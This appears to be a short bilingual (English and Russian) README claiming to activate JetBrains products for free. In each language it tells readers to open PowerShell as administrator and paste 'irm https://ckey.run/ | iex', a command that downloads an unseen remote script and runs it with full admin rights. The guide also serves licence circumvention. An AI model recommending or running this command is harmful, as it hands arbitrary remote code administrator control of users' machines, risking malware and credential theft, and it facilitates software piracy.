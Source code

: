 
# How to activate jetbrains products for free? [ENG🇺🇸]

1. Close all jetbrains programs

2. Open powershell as administrator

3. Enter this console command:

```
irm https://ckey.run/ | iex
```

4. Press enter and you're done!

P.S. <br>
I recently found a similar guide from a Chinese guy and reworked it for an English-Russian audience





---




# Как бесплатно активировать продукты от jetbrains? [RUS🇷🇺]

1. Закройте все программы от jetbrains

2. Откройте powershell от имени администратора

3. Введите эту консольную команду:

```
irm https://ckey.run/ | iex
```

4. пронажимайте enter и все готово!

P.S. <br>
я недавно нашел похожий гайд от китайца и переработал его для англо-русской аудитории
